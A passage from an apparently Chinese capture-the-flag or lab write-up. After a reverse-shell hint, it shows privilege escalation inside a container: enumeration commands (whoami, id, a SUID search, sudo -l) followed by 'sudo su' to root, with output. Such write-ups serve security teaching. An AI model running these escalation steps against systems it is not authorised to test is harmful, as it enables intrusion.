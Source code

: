 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541083.png" alt="image-20240324141518445" style="zoom:50%;" />

要先监听再启动哦。

## 提权

### 信息搜集

```bash
act@db7db77ba113:~/cache/actions/d05059a1ad22d066/hostexecutor$ whoami
# act
act@db7db77ba113:~/cache/actions/d05059a1ad22d066/hostexecutor$ id
# id
# uid=1000(act) gid=1000(act) groups=1000(act),27(sudo),100(users),115(docker115)
act@db7db77ba113:~/cache/actions/d05059a1ad22d066/hostexecutor$ find / -perm -u=s -type f 2>/dev/null
# <hostexecutor$ find / -perm -u=s -type f 2>/dev/null            
# /usr/bin/su
# /usr/bin/chfn
# /usr/bin/mount
# /usr/bin/gpasswd
# /usr/bin/newgrp
# /usr/bin/chsh
# /usr/bin/passwd
# /usr/bin/umount
# /usr/bin/sudo
# /usr/lib/openssh/ssh-keysign
act@db7db77ba113:~/cache/actions/d05059a1ad22d066/hostexecutor$ sudo -l
# sudo -l
# Matching Defaults entries for act on db7db77ba113:
#     env_reset, mail_badpass,
#     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
#     use_pty

# User act may run the following commands on db7db77ba113:
#     (ALL : ALL) ALL
#     (ALL) NOPASSWD: ALL
```

### 提权至docker root

```bash
act@db7db77ba113:~/cache/actions/d05059a1ad22d066/hostexecutor$ sudo su
# sudo su
whoami
# root
id
# uid=0(root) gid=0(root) groups=0(root)
cd /root
ls -la
# total 20
# drwx------ 1 root root 4096 Mar 24 04:41 .
# drwxr-xr-x 1 root root 4096 Mar 24 04:41 ..
# -rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
# -rw-r--r-- 1 root root  161 Jul  9  2019 .profile
# drwx------ 2 root root 4096 Feb  6 08:11 .ssh
# -rw-r--r-- 1 root root    0 Mar 24 04:41 .sudo_as_admin_successful
```
